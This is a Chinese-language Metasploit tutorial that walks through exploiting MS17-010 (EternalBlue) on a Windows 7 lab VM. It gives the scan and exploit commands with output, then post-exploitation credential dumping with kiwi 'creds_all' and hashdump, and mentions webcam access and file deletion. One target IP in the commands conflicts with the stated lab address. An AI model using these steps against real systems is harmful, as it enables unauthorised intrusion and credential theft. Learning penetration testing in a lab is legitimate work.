# metasploit渗透测试入门





WannaCry勒索病毒席卷全球，一旦中了WannaCry病毒电脑文件会被“加密劫持”，黑客要求受害者支付高昂赎金（比特币）才能拿到解密秘钥。 而这枚WannaCry勒索病毒，就是黑客拿着美国安全局泄露的永恒之蓝攻击代码进行研制，并进行大肆勒索传播。

MS17-010是Windows SMBv1服务中存在的远程代码执行漏洞；
 • 开启SMB服务（ 445端口） 的的系统可被执行远程代码， 从而导致被远程控制；
 • 受影响系统： Windows XP、 Windows 7/8/10、 Server 2003/2008/2012/2016

只要用户打上MS17-010这个补丁，就可以避免这次攻击。

## MSF 基础简介

Metasploit 是一个渗透测试平台，使您能够查找，利用和验证漏洞。该平台包括 Metasploit 框架及其商业对手，如 Metasploit Pro。 Metasploit 目前是全球最常见的渗透测试框架，位居 secTools 排行榜第 2 位。

metasploit是一款kali自带的漏洞利用神器，在接下来的2个案例中，我们将<u>利用WIN7主机的ms17-010漏洞和XP主机的ms08-067漏洞</u>，进行渗透攻击演示，并获得目标主机的控制权，带你闯进渗透测试的神之领域。实验可以参考David Kennedy的《Metasploit:The Penetration Tester's Guide》，清华大学诸葛建伟老师翻译的《Metasploit渗透测试指南》。

在**kali虚拟机**中打开**metasploit**，命令行输入：`msfconsole`

<mark>MSF 模块组织按照不同的用途分为 7 种类型的模块（Modules）：</mark>

1、辅助模块 Auxiliary（Aux)，执行扫描之类的动作

2、渗透攻击模块 Exploits，用于实际发起渗透攻击

3、攻击载荷模块（payloads) 目标系统被成功渗透后执行的代码，payload 中的主要内容包括 shellcode，一段获取 shell 的代码。

后面这几个模块一般不是很常用，大家简单的了解一下

4、后渗透攻击模块（Post)

5、编码器模块（Encoders)

6、空指令模块（Nops)

7、免杀模块 （evasion)

<mark>MSF 常用命令</mark>

```
search 根据关键字搜索模块 
show auxiliary 查看所有可用的辅助攻击模块 
show exploits 查看所有可用的渗透攻击模块 
show targets 查看所有载荷代码
show options 
info 显示模块的详细信息 
use 使用指定的测试模块 
back 退出一级
exit 退出
set/unset 设置/取消 当前模块的参数
run/exploit 执行扫描/渗透（2都相同效果）
```

实战：ms17-010 永恒之蓝

查找 ms17-010 漏洞模块，搜索ms17-010相关漏洞利用代码： 
msf5 > search ms17-010









##### <mark>实战：ms17-010 永恒之蓝</mark>

```
需准备环境：Kali-Linux、Windows 7 虚拟机
Kali-Linux ：192.168.182.128
Windows 7： 192.168.182.134（确保处在同个网络下，能互相ping通）
```

第一步：

查找 ms17-010 漏洞模块，搜索ms17-010相关漏洞利用代码： 
msf6 > search ms17-010



这里可以得到两个工具，其中

**auxiliary/scanner/smb/smb_ms17_010**是永恒之蓝扫描模块，**exploit/windows/smb/ms17_010_eternalblue**是永恒之蓝渗透代码，

前者先扫描，若显示有漏洞，再用后者进行渗透。

第二步：

```
使用ms17-010扫描模块对靶机Win7进行扫描，才能进行下一步的渗透操作。
msf6 > use 3   //使用ms17-010扫描模块，对靶机Win7进行扫描
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOST 192.168.86.132   //设置目标IP或网段
RHOST => 192.168.86.132
msf6 auxiliary(scanner/smb/smb_ms17_010) > run   //执行扫描

[+] 192.168.182.134:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)   //说明扫描到的这台win 7存在ms17-010漏洞
[*] 192.168.182.134:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_ms17_010) > back
```



从上图画红线处知道，扫描到的这台win7 存在ms17-010漏洞

第三步：

```
使用ms17-010渗透模块对靶机Win7进行渗透
msf6 > use 0   //使用ms17-010渗透模块对靶机Win7进行渗透
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options  //查看可设置的选项
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 192.168.182.134
RHOST => 192.168.182.134   //设置渗透目标IP
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit   //执行渗透
```





从上图可见已经成功渗透到win7。

不信！那你可以用pwd，dir，shell 检查一下,或是execute -i -f cmd.exe来执行cmd命令，又或者可以screenshot截图





或者也可以用以下2条命令查看系统用户名和密码

```
load kiwi
creds_all
```



到了这里，上面这些命令的执行，都是后渗透测试的问题了，既是windows下的cmd命令及其相关操作的事情了。下面再来一个获得用户hash值的命令

`run post/windows/gather/hashdump`





注：不要忘记了保存哦，下次可以直接再利用哈～下面借别人的图展示：



后渗透测试中会有很多好玩的指令操作，如打开摄像头，删除文件，删除目标主机目录，创建系统用户等等。








